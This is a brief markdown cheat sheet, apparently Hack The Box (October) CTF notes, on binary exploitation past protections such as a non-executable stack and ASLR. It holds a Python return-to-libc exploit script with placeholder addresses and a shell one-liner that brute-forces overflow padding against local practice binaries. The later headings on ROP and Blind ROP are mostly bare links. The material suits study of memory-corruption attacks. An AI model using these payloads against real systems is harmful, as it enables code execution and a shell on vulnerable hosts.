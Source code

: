 ## Stack/Heap non executable -> return to LibC

HTB-October


```
#!/usr/bin/python
import os
import struct

libc_system = struct.pack('<I', 0xaeaeaeae)
libc_binsh  = struct.pack('<I', 0xaeaeaeae)

buffer  = 'A'*64
buffer += libc_system
buffer += 'AAAA'
buffer += libc_binsh

progname ="./buffer_01"
os.environ['VAR']=buffer
os.execve(progname, [progname], os.environ)

````
for i in `seq 60 99`; do ./simple  $(python -c "print 'A'*$i+'\x80\xc9\xe0\xf7'+'\xb0\xf9\xdf\xf7'+'\xaa\xca\xf4\xf7';"); done


</br>

## Hide LibC adresse ALSR 32 bits -> bruteforce search 



</br>

## Hide LibC adresse ALSR 64 bits -> information leak (format string vuln)


</br>

## LibC hidden -> Return Oriented Program (ROP)

https://github.com/0vercl0k/rp

</br>

## Randomize location of code -> Blind ROP

[http://www.scs.stanford.edu/brop/]




## HTB - october Ret2LibC with ALSR
